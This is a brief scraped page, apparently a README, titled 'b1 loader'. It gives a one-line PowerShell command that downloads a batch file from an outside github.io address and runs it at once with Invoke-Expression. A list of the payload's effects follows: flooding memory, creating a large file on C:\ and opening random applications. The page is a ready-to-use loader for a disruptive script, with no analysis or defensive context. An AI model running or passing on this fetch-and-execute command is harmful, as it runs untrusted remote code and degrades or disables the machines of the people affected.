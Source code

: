 batch loader
----------------------------------
# b1 loader 
```bat
powershell -Command "Invoke-Expression (Invoke-WebRequest -Uri 'https://luzisdev.github.io/b-1.bat').Content"
```
- flood memory
- creat big file at C:\
- open randoms application
----------------------------------
